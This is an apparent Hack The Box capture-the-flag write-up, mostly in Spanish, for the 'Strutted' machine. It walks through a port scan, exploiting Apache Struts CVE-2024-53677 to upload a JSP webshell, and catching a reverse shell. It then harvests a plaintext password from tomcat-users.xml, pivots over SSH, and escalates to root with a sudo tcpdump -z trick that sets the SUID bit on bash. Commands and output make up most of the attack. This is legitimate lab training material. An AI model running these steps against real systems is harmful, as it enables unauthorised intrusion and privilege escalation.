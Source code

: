 ```yaml
---
layout: single
title: Union - Hack The Box
excerpt: "'Strutted' is an medium-difficulty Linux machine featuring a website for a company offering image hosting solutions. The website provides a Docker container with the version of Apache Struts that is vulnerable to '[CVE-2024-53677](https://nvd.nist.gov/vuln/detail/CVE-2024-53677)', which is leveraged to gain a foothold on the system. Further enumeration reveals the 'tomcat-users.xml' file with a plaintext password used to authenticate as 'james'. For privilege escalation, we abuse 'tcpdump' while being used with 'sudo' to create a copy of the 'bash' binary with the 'SUID' bit set, allowing us to gain a 'root' shell."
date: 2025-06-19
classes: wide
header:
  teaser: /img2/union.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Medium
tags:
  - Information Leakage
  - Apache Struts Exploitation [CVE-2024-53677]
  - Abusing File Upload (Malicious JSP File)
  - Abusing Sudoers Privilege (tcpdump) [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
❯ nmap -sS --open -p- --min-rate 5000 -n -Pn 10.10.11.59
```

```ruby
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-19 12:46 CEST
Nmap scan report for 10.10.11.59
Host is up (0.063s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.61 seconds
```

- Add domain to /etc/hosts

```bash
❯ echo "10.10.11.59 strutted.htb" >> /etc/hosts
```

## Exploitation

- Apache Struts Exploitation (CVE-2024-53677)

![](/img2/Pasted%20image%2020250619161327.png)

![](/img2/Pasted%20image%2020250619161400.png)

> Primero tenemos que bypassear la restricción de la imagen, esto lo conseguimos con los primeros magik numbers correspondientes a una imagen PNG. Una vez bypasseada la restricción podemos abusar de la vulnerabilidad cambiando el nombre del archivo con la función top.UploadFileName propia de Struts.

![](/img2/Pasted%20image%2020250619161722.png)

![](/img2/Pasted%20image%2020250619161802.png)

> Para abusar de esta subida de archivos, podemos subir una webshell usando jsp.

- Reverse Shell

![](/img2/Pasted%20image%2020250619162358.png)

```bash
❯ nc -nlvp 9000
```

```ruby
listening on [any] 9000 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.59] 59578
bash: cannot set terminal process group (1012): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@strutted:~/webapps/ROOT$ 
```

## Post-exploitation

- Find tomcat-users.xml file

```bash
tomcat@strutted:/var$ find / -name tomcat-users.xml 2>/dev/null
```

```ruby
/etc/tomcat9/tomcat-users.xml
```

```bash
tomcat@strutted:/var$ cat /etc/tomcat9/tomcat-users.xml
```

```ruby
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary.

  Built-in Tomcat manager roles:
    - manager-gui    - allows access to the HTML GUI and the status pages
    - manager-script - allows access to the HTTP API and the status pages
    - manager-jmx    - allows access to the JMX proxy and the status pages
    - manager-status - allows access to the status pages only

  The users below are wrapped in a comment and are therefore ignored. If you
  wish to configure one or more of these users for use with the manager web
  application, do not forget to remove the <!.. ..> that surrounds them. You
  will also need to set the passwords to something appropriate.
-->
<!--
  <user username="admin" password="<must-be-changed>" roles="manager-gui"/>
  <user username="robot" password="<must-be-changed>" roles="manager-script"/>
  <role rolename="manager-gui"/>
  <role rolename="admin-gui"/>
  <user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
--->
<!--
  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
</tomcat-users>
```

> Encontramos unas credenciales: IT14d6SSP81k

- Pivoting

```bash
❯ ssh james@10.10.11.59
```

```ruby
The authenticity of host '10.10.11.59 (10.10.11.59)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.59' (ED25519) to the list of known hosts.
james@10.10.11.59's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-130-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Jun 19 02:59:57 PM UTC 2025

  System load:           0.02
  Usage of /:            70.4% of 5.81GB
  Memory usage:          25%
  Swap usage:            0%
  Processes:             223
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.59
  IPv6 address for eth0: dead:beef::250:56ff:fe94:a5b

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

5 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Jan 21 13:46:18 2025 from 10.10.14.64
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@strutted:~$ 
```

> Únicamente nos podemos conectar mediante ssh, ya que la migración de usuario esta restringida.

- Find sudoers

```bash
james@strutted:~$ sudo -l
```

```ruby
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

- Abusing Sudoers Privilege (tcpdump) 

```bash
james@strutted:~$ COMMAND='chmod u+s /bin/bash'
```

```bash
james@strutted:~$ TF=$(mktemp)
```

```bash
james@strutted:~$ echo "$COMMAND" > $TF
```

```bash
james@strutted:~$ chmod +x $TF
```

```bash
james@strutted:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

```ruby
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
```

```bash
james@strutted:~$ ls -l /bin/bash
```

```ruby
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

```bash
james@strutted:~$ bash -p
```

```ruby
bash-5.1# 
```


![](/img2/Pasted%20image%2020250619170354.png)